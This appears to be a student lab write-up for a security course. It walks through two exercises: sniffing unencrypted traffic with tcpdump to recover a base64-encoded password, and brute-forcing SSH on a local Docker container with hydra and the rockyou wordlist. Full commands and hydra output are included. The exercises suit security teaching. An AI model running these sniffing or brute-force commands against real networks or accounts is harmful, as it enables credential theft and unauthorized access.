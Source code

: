 # Attack is the best defense


## task 0. ARP spoofing and sniffing unencrypted traffic 

#### terminal 0
``` bash
-$ sudo tcpdump -i enp0s3 -w dump.pcap 'not port 22'
```

On the other terminal, run the `user_authenticating_into_server` script

#### terminal 1
```bash
-$ ./user_authenticating_into_server
```

Once the script is done, you can manually exit (Ctrl+C) on the terminal 0.

`-$ tcpdump -A -X -r dump.pcap > file.txt`

`-$ grep "=ZB" file.txt`
`
    =ZB.....
    =ZB.....334 UGFzc3dvcmQ6
    ...N=ZB.
    ....=ZB.bXlwYXNzd29yZDk4OTgh
`
the password is `bXlwYXNzd29yZDk4OTgh` base64
and convert to base64 to text `mypassword9898!`

## task 1. Dictionary Attack

You would need to have docker installed on your Ubuntu:
``` bash
-$ sudo apt update
-$ sudo apt install docker.io
```
and install hydra to:
``` bash
-$ sudo apt install hydra
```
and login to docker and start

``` bash
-$ docker login
-$ systemctl start docker
```

``` bash
and now pull and run the Docker image sylvainkalache/264–1:
```

``` bash
-$ docker run -p 2222:22 -d -ti sylvainkalache/264–1
```
I would be making use of the [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) password list.
``` bash
-$ sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4
```
`
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-21 09:09:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12671 login tries (l:1/p:12671), ~3168 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-21 09:09:23
`
and the password is found `password123`
